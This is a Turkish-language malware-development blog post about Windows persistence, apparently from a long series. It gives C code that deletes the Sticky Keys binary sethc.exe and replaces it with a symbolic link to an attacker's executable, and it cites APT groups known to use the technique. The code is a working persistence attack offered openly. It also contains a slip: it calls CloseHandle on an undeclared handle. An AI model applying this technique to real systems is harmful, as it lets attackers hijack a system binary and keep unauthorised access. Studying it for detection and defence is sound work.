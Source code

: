 \newpage
\subsection{91. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 25. Meşru bir uygulamadan zararlıya sembolik bağlantı oluşturma. Basit C örneği.}

﷽

![pers](./images/128/2024-07-14_13-00_1.png){width="80%"}    

Daha önceki [gönderilerden birinde](https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html), Erişilebilirlik (Accessibility) özelliklerini kullanarak kalıcılık sağlamak için yaygın olarak kullanılan teknikleri ele almıştım. APT3, APT29 ve APT41 gibi APT grupları, bilgisayarlara sızdıklarında bu yöntemi aktif olarak kullandı.    

Bu gönderide, aynı tekniğin farklı bir mantıkla nasıl uygulanabileceğini göstereceğim: Geçerli bir uygulamadan zararlı bir uygulamaya sembolik bağlantı (symlink) oluşturarak.     

### sembolik bağlantı oluşturma. erişilebilirlik özellikleri

Saldırganların kalıcılık elde etmek için kullandığı iyi bilinen bir yöntem, Windows erişilebilirlik yeteneklerini yeniden yönlendiren sembolik bağlantılar (symlink) oluşturmaktır. Bu yöntem, sadece binary dosyaları değiştirmekten daha karmaşıktır, çünkü geçerli bir sistem dosyasından veya özellikten zararlı bir dosyayın yönlenmesi için bir symlink oluşturmayı içerir. Sistem veya bir kullanıcı orijinal dosyayı ya da özelliği çalıştırmaya çalıştığında, farkında olmadan zararlı dosyaya yönlendirilir.    

### pratik örnek

Mantık oldukça basit görünüyor, şu şekilde:    

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
  // meşru ikili dosyanın yolu (Sticky Keys gibi)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // kötü amaçlı ikili dosyanın yolu
  const char* meowApp = "Z:\\hack.exe";

  // orijinal dosyayı sil (yönetici yetkileri gerektirir)
  if (!DeleteFileA((LPCSTR)legitApp)) {
    printf("orijinal dosya silinirken hata: %d\n", GetLastError());
    return 1;
  }
  printf("orijinal dosya başarıyla silindi\n");
  CloseHandle(hFile);

  // sembolik bağlantı oluştur
  if (!CreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
    printf("sembolik bağlantı oluşturulurken hata: %d\n", GetLastError());
    return 1;
  }
  printf("meow için sembolik bağlantı başarıyla oluşturuldu =^..^=\n");
  return 0;
}
```
